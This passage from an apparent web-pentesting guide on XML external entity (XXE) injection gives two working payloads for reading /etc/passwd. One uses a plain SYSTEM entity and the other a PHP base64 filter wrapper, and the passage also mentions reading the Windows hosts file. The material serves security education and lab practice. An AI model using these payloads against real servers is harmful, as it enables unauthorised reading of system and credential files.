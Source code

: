 ![](<../images/image (870).png>)

### Read file

Lets try to read `/etc/passwd` in different ways. For Windows you could try to read: `C:\windows\system32\drivers\etc\hosts`

In this first case notice that SYSTEM "_\*\*file:///\*\*etc/passwd_" will also work.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

![](<../images/image (86).png>)

This second case should be useful to extract a file if the web server is using PHP (Not the case of Portswiggers labs)

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```
